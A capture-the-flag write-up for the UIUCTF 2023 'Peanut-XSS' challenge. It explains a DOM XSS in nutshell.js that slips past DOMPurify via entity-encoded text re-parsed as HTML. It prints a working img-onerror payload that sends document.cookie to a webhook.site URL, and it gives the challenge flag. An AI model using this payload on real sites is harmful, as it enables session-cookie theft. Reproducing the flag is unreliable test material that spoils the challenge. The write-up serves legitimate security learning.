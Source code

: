 # Peanut-XSS (UIUCTF 2023)

**Challenge category**: Web<br>
**Challenge description**: "Nutshell is pretty cool. Want to test it out?"<br>
**Challenge points**: 322<br>
**CTF date**: sab, 01 Lug. 2023, 00:00 UTC — lun, 03 Lug. 2023, 00:00 UTC<br>

## Context

This challenge is about a DOM XSS (and HTML obfuscation).

## Exploring the challenge

The only web page available uses <code>nutshell.js</code>, a tool used to create "expandable and embeddable explanations". This tool takes the specified HTML
inside the GET <code>nutshell</code> parameter and render all links starting with <code>:</code>. These links may refer to a Youtube video,
a section of a Wikipedia article or a section of any web page (even the same). To do this, the url specified in the <code>href</code> attribute must be of the following format: <code>http[s]?://domain_name/path#text</code>, where <code>text</code> is the text inside a section tag (<code><h\*></code>).
All the elements present in this section are shown inside the balloon produced.

![1](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/364d3adc-0c39-4743-a710-834dfdd3842d)

![2](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/dda8e0b1-8778-4ef7-ab3b-ad46a8a28358)

![3](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/f35b95c9-4ea8-4040-9697-bbe54f00409c)

A user can submit any URL to the admin bot. It doesn't fire any user events, so you need to define a possible XSS so that triggers automatically.

## Attack
The HTML defined inside the nutshell parameter goes through this code:
```javascript
const $ = document.querySelector.bind(document);
      const nutshell = new URLSearchParams(location.search).get("nutshell");
      if (nutshell) {
        preview.innerHTML = DOMPurify.sanitize(nutshell);
      } else {
        var editor = CodeMirror.fromTextArea($("#editor"), {
          mode: "HTMLmixed",
          lineNumbers: true
        });
        $("#submit").style.display = "";

        $("#submit").onclick = () => {
          location.search = `nutshell=${encodeURIComponent(editor.getValue())}`;
        };
      }
```
The HTML, before being parsed by nutshell.js, is DOMPurified.
Looking at the <code>nutshell.js</code>([[1]](#1)) we can see this piece of code:
```javascript
// Get an array of all links, filtered by if the text starts with a :colon
        let expandables = [...dom.querySelectorAll('a')].filter(
            link => (link.innerText.trim().indexOf(':')==0)
        );

        // Turn each one into an Expandable!
        expandables.forEach((ex)=>{

            // Style: closed Expandable
            ex.classList.add('nutshell-expandable');
            ex.setAttribute("mode", "closed");

            // Remove colon, replace with animated balls
            let linkText = document.createElement('span');
            linkText.innerHTML = ex.innerText.slice(ex.innerText.indexOf(':')+1);
            linkText.className = 'nutshell-expandable-text';
            let ballUp = document.createElement('span');
            ballUp.className = 'nutshell-ball-up';
            let ballDown = document.createElement('span');
            ballDown.className = 'nutshell-ball-down';
            ex.innerHTML = '';
            ex.appendChild(linkText);
            ex.appendChild(ballUp);
            ex.appendChild(ballDown);
...
```
These instructions are executed as soon as the script loads, so without the user having to click the expandable link. Accepts the text specified after the colon
inside the anchor tag and paste it inside a <code>span</code> element with innerHTML. This element is then added to the page. This is the sink where the malicious code goes.<br>
We can't just define the malicious HTML inside the anchor tag for two reasons: the innerText only refers to the text and the HTML defined inside the nutshell parameter is
purified by DOM Purify from the page itself. We should define text that can be interpreted as HTML, but isn't HTML. How? Obfuscation!
To trigger an XSS, a code like this: <code>\</span\>\<img src onerror='fetch("https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b/? cookie= "+document.cookie)'/\>\<span\></code> should be written like this:
<code>\&lt;/span\&gt;\&lt;img src onerror='fetch("<span>https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b/?cookie=</span> "+document.cookie)'/\&gt;\&lt;span\&gt;</code>. So:
```HTML
<HTML>
<body>
    <h2>To write a section,</h2>
    <p>just use headings & paragraphs like this! Then…</p>
    <h2>To embed a section,</h2>
    <p>just make a link with :colon at the front… <a href="#ToWriteASection">:&lt;/span&gt;&lt;img src onerror=&#39;fetch(&quot;https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b/?cookie=&quot;+document.cookie)&#39;/&gt;&lt;span&gt;</a>!</p>
</body>
</HTML>
```
If we click the preview button, the client is redirected to the same page but with the nutshell parameter containing the malicious HTML.
The XSS should be triggered. If we send the url of the page to the admin bot, we get its cookie (the flag).

![peanut_xss_flag](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/4a45e29f-728b-4ce3-9390-19aa51fafece)

Flag is <code>uiuctf{cr4ck1ng_0open_somE_nuTsh3lls}</code>

## References
<a id="1">[1]</a>
https://github.com/ncase/nutshell/blob/main/nutshell.js
